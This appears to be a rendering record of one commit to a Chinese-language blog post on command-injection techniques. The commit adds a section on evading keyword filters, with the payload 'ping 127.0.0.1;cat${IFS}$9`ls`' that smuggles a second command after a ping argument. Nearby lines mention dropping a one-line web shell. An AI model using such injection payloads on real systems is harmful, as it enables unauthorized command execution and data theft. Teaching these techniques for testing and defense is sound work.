

Before and after one commit to HouKC/houkc.github.io, a Jekyll site: the page built from _posts/2020-12-02-commandExecute.md, in a window 1280 px wide and 900 px high, scrolled down 10332 px. Shown: the whole window, without its empty margins (233-1232 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
update commandExecute.md

````diff
--- a/_posts/2020-12-02-commandExecute.md
+++ b/_posts/2020-12-02-commandExecute.md
@@ -439,6 +439,14 @@ python -m http.server 4444
 
 然后放一个一句话shell文件即可。
 
+#### 4. 内联命令绕过关键词
+
+可以使用反引号ls的输出作为cat的输入来绕过文件关键词。
+
+```shell
+ping 127.0.0.1;cat${IFS}$9`ls`
+```
+
 
 
 ## 0xff commix工具
````
